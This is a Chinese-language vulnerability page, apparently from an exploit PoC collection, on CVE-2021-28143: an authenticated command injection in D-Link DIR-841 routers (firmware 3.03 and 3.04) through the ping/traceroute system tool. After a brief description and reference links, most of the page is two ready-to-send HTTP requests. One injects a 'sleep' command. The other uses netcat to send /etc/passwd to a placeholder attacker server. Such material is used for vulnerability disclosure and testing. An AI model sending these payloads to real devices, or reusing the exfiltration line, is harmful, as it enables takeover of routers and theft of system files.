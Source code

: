 # D-Link DIR-841 命令注入漏洞 CVE-2021-28143

# D-Link DIR-841 命令注入漏洞 CVE-2021-28143

## 漏洞描述

D-Link DIR-841 3.03和3.04 存在经过身份验证的命令注入，通过“系统工具”（ping/ping6/traceroute）命令注入，可导致攻击者进行完全控制设备。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2021-28143
- https://github.com/vitorespf/Advisories/blob/master/DLINK-DIR-841-command-injection.txt

## 漏洞复现

poc：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & sleep 5'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```

Exfiltrating files：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & nc SERVER-IP 1234 < /etc/passwd'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```


